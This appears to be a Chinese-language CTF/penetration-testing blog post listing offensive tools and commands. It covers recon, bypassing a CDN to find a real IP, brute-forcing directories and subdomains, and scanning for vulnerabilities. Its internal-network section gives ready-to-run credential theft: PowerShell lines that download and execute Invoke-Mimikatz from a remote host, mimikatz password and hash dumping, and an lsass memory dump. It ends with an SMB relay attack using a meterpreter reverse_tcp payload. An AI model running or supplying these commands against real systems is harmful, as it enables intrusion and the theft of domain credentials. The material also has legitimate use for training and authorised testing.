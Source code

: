 ```yaml
---
layout: post
title: "渗透入侵常用工具"
date: 2019-07-18 17:12:09 +0800
description: ""
category: ctf/awd
tags: []
---
```


## 信息搜集

#### [绕过CDN查找真实IP](https://www.cnblogs.com/qiudabai/p/9763739.html，https://zhuanlan.zhihu.com/p/30114049，https://blog.0day.rocks/securing-a-web-hidden-service-89d935ba1c1d)

- 查询历史DNS记录：[SecurityTrails](https://securitytrails.com/dns-trails)，[viewdns](https://viewdns.info)
- 查询子域名：[Dnsdb](https://dnsdb.io/)，[crtsh](https://crt.sh/)，[spyse](https://spyse.com/)，`Google site:target.com -www`
- 利用SSL证书：原理：通过IP直连443端口，会暴露SSL证书，遍历0.0.0.0/0，即整个互联网，一旦找到相同的SSL证书，即找到隐藏在CDN后的IP。[Censys](https://search.censys.io/)实现对整个互联网的扫描，搜索参数：`parsed.names: target.com and tags.raw: trusted`，然后查找使用这些证书的IP：Explore -> What's using this certificate? -> IPv4 Hosts。对于暗网网站，只需将`SHA1 fingerprint`（签名证书的sha1值）粘贴到Censys IPv4主机搜索中，即可找到证书，然后同理查找使用这个证书的IP。
- 利用特征HTTP标头：Censys搜索参数：`80.http.get.headers.server:cloudflare`
- 利用特征HTTP内容：Censys搜索参数：`80.http.get.body：参数`；[Shadon](https://www.shodan.io)搜索参数：`https://www.shodan.io/search?query=http.html%3AUA-32023260-1`
- 利用[iconhash](https://github.com/Becivells/iconhash)，计算favicon.ico的hash值，然后通过fofa、shadon查找
- RSS邮件订阅，网站如果自带sendmail，通过其发送的邮件源码中查找IP
- Zmap扫描：首先从APNIC（Asia-Pacific Network Information Center，亚太互联网络信息中心）获取IP段，然后使用Zmap的banner-grab扫描出来80端口开放的主机进行banner抓取，最后在http-req文件中的 Host写target.com。
- F5 LTM：服务器如果使用F5 LTM，通过`Set-Cookie: BIGipServerpool_8.29_8030=487098378.24095.0000`，第一小节的十进制数`487098378`转为十六进制数`1d08880a`，从后往前解析即为IP：`0a.88.08.1d（10.136.8.29）`
- 利用报错信息或其他访问功能，如上传头像是提供一个url供目标网站下载，则放置头像的访问记录中会记录目标网站的真实IP
- 针对cloudflare：[crimeflare](http://www.crimeflare.com/)，`ping direct-target.com`

#### 基本信息搜集

```
theharvester -d target.com -b bing,google -h -p
```

#### 后台查询

[Breacher](https://github.com/s0md3v/Breacher)：`python breacher.py -u example.com --type php`

[cangibrina](https://github.com/fnk0c/cangibrina)：`python cangibrina.py -u facebook.com --ext php`

[dirsearch](https://github.com/maurosoria/dirsearch)：`python3 dirsearch.py -e php -u example.com --exclude-status 403,401`

#### 旁站查询

[Reverse IP Domain Check](https://www.yougetsignal.com/tools/web-sites-on-web-server/)

#### DNS查询

[who.is](https://who.is)

godaddy.com

[DNSdumpster](https://dnsdumpster.com/ )

```shell
whois xxx.edu.cn
dig +short xxx.edu.cn
dig -x 10.10.10.10
dnsrecon -d xxx.edu.cn
```

#### [子域名扫描](https://blog.csdn.net/w1590191166/article/details/104160404)

[Find Subdomain](https://findsubdomains.com/)

###### [subDomainsBrute](https://github.com/lijiejie/subDomainsBrute)

```
D:\ctf\tools\gather\subDomainsBrute>python subDomainsBrute.py qq.com --full
```

#### 目录扫描

dirb

dirsearch

#### FUZZ扫描器

###### [wfuzz](https://github.com/xmendez/wfuzz)

```powershell
C:\Users\tyler>wfuzz -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\common.txt -w D:\ctf\tools\web\wfuzz\wordlist\general\extensions_common.txt --hc 404 http://testphp.vulnweb.com/FUZZ/FUZ2ZFUZ3Z #FUZZ url（FUZnZ，其中n代表了payload的序号）
wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ #FUZZ参数
```

[ffuf](https://github.com/ffuf/ffuf)

```
ffuf -c -w /mnt/hgfs/ctf/tools/password/OneListForAll/onelistforall.txt -u [target.com]/FUZZ
```

#### 密码字典

[fuzzdb](https://github.com/fuzzdb-project/fuzzdb)

[SecLists](https://github.com/danielmiessler/SecLists)

社工密码字典生成工具[Cupp](https://github.com/Mebus/cupp)

爬行网站获取关键信息创建密码字典工具[cewl](http://digi.ninja/projects/cewl.php)

#### Web环境识别

在线平台：[bugscaner](http://whatweb.bugscaner.com/)，[云悉](https://www.yunsee.cn/)

```sh
$ whatweb -v xxx.edu.cn
```

#### 设备/服务组件搜索

国内：[钟馗之眼](https://www.zoomeye.org/)，[fofa](https://www.jianshu.com/p/5101869a4947)

国外：[撒旦](https://www.shodan.io)

#### 源码泄露

[dvcs-ripper](https://github.com/kost/dvcs-ripper)

```
#ignore SSL certification verification (with -s)
rip-git.pl -v -u http://www.example.com/.git/
rip-hg.pl -v -u http://www.example.com/.hg/
rip-bzr.pl -v -u http://www.example.com/.bzr/
rip-svn.pl -v -u http://www.example.com/.svn/
rip-cvs.pl -v -u http://www.example.com/CVS/
```

## 漏洞扫描

```shell
nikto -h xxx.edu.cn -output ./result.html -Format htm
/mnt/hgfs/ctf/tools/exploit/w3af/w3af_gui #https://github.com/andresriancho/w3af
D:\ctf\tools\exploit\xray_windows_amd64\xray_windows_amd64.exe webscan --basic-crawler "target.com" --text-output out.txt #https://github.com/chaitin/xray
```

#### WordPress漏洞扫描

```shell
wpscan --url target.com -e vp,ap,p,vt,at,t,u --passwords /root/wordlist.txt -t 50 --api-token xxxxxxxxxxxxxxxxxxx

#token
https://wpvulndb.com/users/edit

apt remove wpscan
apt install zlib1g-dev
gem install wpscan #install wpscan
```

#### Structs2漏洞扫描

```
#https://github.com/Lucifer1993/struts-scan
python structs-scan.py http://target.com/struts2%2Dshowcase/actionChain.action #扫描
python structs-scan.py -u http://target.com -i struts2-048 #攻击
```

#### Weblogic

```
#https://github.com/rabbitmask/WeblogicScan
python3 ws.py -t ip:7001
weblogic上传shell路径：
.../servers/AdminServer/tmp/_WL_internal/uddiexplorer/随机字符/war/***.jsp
```

## 内网渗透

#### 域信息搜集

```powershell
>net user /domain #查询所有域用户
>net view /domain #查看有几个域
>net view /domain:XXX #查看域内的主机
>net group /domain #查看域里面的组
>net share #查看共享文件夹

>net group "domain computers" #domain：查看域内所有的主机名
>dsquery server #查询域控制器主机名
"CN=WIN-KMZ8MFWF5L8,CN=Servers,..."
>net group "domain controllers" /domain
WIN-KMZ8MFWF5L8$ #去掉结尾$符号
>ping WIN-KMZ8MFWF5L8 #查询域控制器IP
>net group "domain admins" /domain #查询域管理员用户名
```

#### 提取系统信息

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Invoke-Mimikatz DumpCerts #查询域管理员密码
powershell IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1"); Get-PassHashes #查询域管理员密码hash

mimikatz log "privilege::debug" "lsadump::lsa /patch" #获取域控制器上所有用户的hash
mimikatz "privilege::debug" "sekurlsa::logonPasswords" #抓取密码
#如果无法上传mimikatz，先将lsass进程内存dump出来，再通过mimikatz本地获取密码
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

#### [impacket](https://www.secureauth.com/labs/open-source-tools/impacket)

###### [smbrelayx](https://blog.csdn.net/qq_36374896/article/details/84593467)

```sh
#run on attack vps
pip install impacket
nmap -sT -p 445 --open --script smb-security-mode.nse,smb-os-discovery.nse 192.168.91.0/24 #扫描未开启smb签名的机器:message_signing: disabled(dangerous, but default)
smbrelayx.py -h target_ip -c "calc.exe"

或者直接用MSF的smb_relay模块代替：
msfconsole
use exploit/windows/smb/smb_relay
set payload windows/x64/meterpreter/reverse_tcp
set lhost attack_vps
set smbhost target_ip
run
#其他机器使用和target_ip相同权限访问攻击机，攻击机可以获取hash，并且触发目标机器执行命令
net use \\attack_vps/user:"Administrator" "ABCabc123"
```

